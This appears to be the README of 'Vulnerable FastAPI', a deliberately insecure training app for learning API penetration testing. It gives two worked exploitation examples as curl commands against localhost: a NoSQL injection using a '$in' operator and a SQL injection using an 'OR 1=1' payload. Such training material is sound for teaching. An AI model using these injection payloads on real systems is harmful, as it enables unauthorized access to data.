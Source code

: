 ![Vulnerable FastAPI Logo](./img/logo.png "Vulnerable FastAPI Logo")
<p align="center">
    <em>Vulnerable FastAPI, compliant to <a href="https://owasp.org/www-project-top-ten/">OWASP TOP 10: 2021</a></em><br><b> ⚠️ Under Development ⚠️</b>
</p>

> Vulnerable FastAPI is a simple vulnerable FastAPI application for learning API pentesting on vulnerable API endpoints. Please refer to `/docs` for information regarding endpoints.

---

### Current exploitation examples
```
$ export HOST="127.0.0.1"; export PORT=8888
```

NoSQLi
```
$ curl -s "http://$HOST:$PORT/find" -H 'Content-Type: application/json' -d '{"id":{"$in":[1,2]}}' | jq
```

SQLi
```
$ curl -s "http://$HOST:$PORT/select?username=%22%20OR%201%3D1%3B%20--%20" | jq
```

---

## Thanks
 - [FastAPI](https://tiangolo.fastapi.com)
 - [Faker](https://github.com/joke2k/faker)
 - [aioSQLite](https://github.com/omnilib/aiosqlite)
 - [MontyDB](https://github.com/davidlatwe/montydb)
 - [OWASP Top 10](https://owasp.org/www-project-top-ten/)

